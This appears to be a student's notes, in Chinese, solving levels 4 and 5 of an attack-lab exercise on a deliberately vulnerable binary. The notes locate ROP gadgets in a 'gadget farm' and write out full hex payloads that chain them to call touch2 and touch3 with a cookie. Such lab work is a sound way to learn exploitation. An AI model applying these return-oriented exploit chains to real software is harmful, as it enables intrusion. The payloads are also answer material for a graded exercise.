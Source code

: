 # level 4
> gadget farm含有一系列没那么有用的函数，按照需求，汇编对应的函数作为攻击字符串。与level2类似，要将cookie的值作为参数传入touch2函数，但不能使用栈溢出的方法。

> 我需要先写出了攻击指令序列，汇编。之后在gaget farm中找到包含攻击指令的gaget函数

''' asm 
    mov 0x59b997fa, %rdi ;但是farm中不存在这样的指令
    ; 需要保证 (%rsp)=cookie 
    pop rdi 5f
''' 
5f 3c
'''asm
  402b18:	41 5f                	pop    %r15
  402b1a:	c3                   	retq   
'''
> 因此从0x402b19开始执行可以达到效果
> 运行`call 0x402b19`？将buf的返回地址覆盖为0x402b19即可
> 在运行完pop rdi之后，rsp+8（因为rdi 64bit为8个字节），注意到rsp所指向的内存就是输入的buf字符串。因此需要将
fa 97 b9 59
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
19 2b 40 00
> 上述的攻击字符并没有进入到touch2中，只做到了跳转到pop rdi以及将cookie压入rdi
> 既然手册中说了要利用farm中的数据，那么我还得再看看
pop rax 58 
mov rax, rdi 48 89 c7
ret c3

'''asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
  ；这个gaget可以完成mov rax, rdi
'''

'''asm
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
  ; 90为nop，因此这个gaget可以完成pop rax
'''

> 所以先利用栈溢出的方法，将地址跳转到`0x4019cc`，之后ret到栈(rsp)所指的地址
> 这个地址就是我们输入buf的第一个字，需要跳转到`0x4019a2`
a2 19 40 00
> 有一点不对，因为已经执行了pop rax，所以rsp+8所以需要在rsp+8的位置输入
fa 97 b9 59 
00 00 00 00 
a2 19 40 00
ec 17 40 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
19 2b 40 00
> 原来可以输入超过40个字节！依旧可以通过覆盖地址的方法跳转到指定的位置（farm）
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
cc 19 40 00
00 00 00 00 
fa 97 b9 59 
00 00 00 00
a2 19 40 00
00 00 00 00
ec 17 40 00
!!!!!一定要记得把地址补全，因为攻击代码利用了栈溢出的原理，如果地址只写成32位的，那么有可能无法有点的获得地址，高16位有别的数据。因此一定要补0

# level 5
类似于touch3，攻击代码中要含有cookie。并将cookie在栈上的地址作为参数传递给rdi
由于采用了栈随机化的手段，因此没有办法直接定位出cookie的地址
把cookie存储在buf的最开始，这样cookie与攻击代码的相对地址是可知的，
剩下的就是需要知道当前栈rsp的位置
不存在pop rsi
因此需要mov rsp, rsi
pop rdi

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
rax = rdi + rsi

adddr mov rsp, rdi 48 89 e7
(store cookie on stack first，打算把它存在32～39的位置)
(store relative assest value on stack，即将rsi置为-8 0xFFFFFFFFFFFFFFF8)
addr pop rsi
addr add_xy
addr touch3
> 因为farm中不存在mov rsp, rdi这条指令，所以更换思路
addr mov rsp, rsi 
addr pop rdi
addr add_xy
addr mov rax, rdi
addr touch3
> 也不存在mov rsp, rsi。可以利用其他寄存器做中转
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

其中48 89 e0代表了mov rsp, rax，更改攻击代码为
mov rsp, rax
mov rax, rdi ; 因为只存在48 89 c7
; pop rsi 不存在这条指令，需要借助中转寄存器

add_xy
touch3
> 整体思路没有问题，将mov rsp, rdi的思路也正确，但是将偏移量移动到rsi是真的很麻烦
所有的mov %reg, rsi都不存在，尝试使用mov reg, esi
mov ecx, esi 401a13
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   
mov edx, ecx 401a70
0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq   
mov eax, edx 4019dd
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   
所以
addr pop rax
偏移量数值
addr mov eax, edx
addr mov edx, ecx
addr mov ecx, esi
> 现在解决了rsi存储偏移量的问题，开始解决mov rsp, rdi的问题
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

其中48 89 e0代表了mov rsp, rax，更改攻击代码为
mov rsp, rax
mov rax, rdi ; 因为只存在48 89 c7

所以
addr pop rax 4019ab
偏移量数值40 or 32?
addr mov eax, edx 4019dd
addr mov edx, ecx 401a70
addr mov ecx, esi 401a13
addr mov rsp, rax 401a06
addr mov rax, rdi 4019a2
addr add_xy 4019d6
mov rax, rdi 4019a2
addr touch3 
cookie ascii

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
28 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

两个疑问：
1. 为什么要+32而不是+40，rsp寄存器的位置非常关键。在这个题目里面，栈上存储的都是返回地址。想计算cookie-ascii与某一条指令的相对位移，不能通过单纯的计算两者之间有多少条指令，因为栈上存储的不是指令！而是指令的地址。题目中，计算机在执行mov rsp, reg的时候，显然是计算机在执行上一条指令结束后，ret到这里的。ret需要去`栈`上寻找指令的地址。找到这条指令之后，rsp+8，并且pc进行对应的置数。
2. 为什么要存储ascii码而不是cookie的值，ascii码的顺序为什么是按照cookie从高位->地位的顺序编码写入攻击序列。
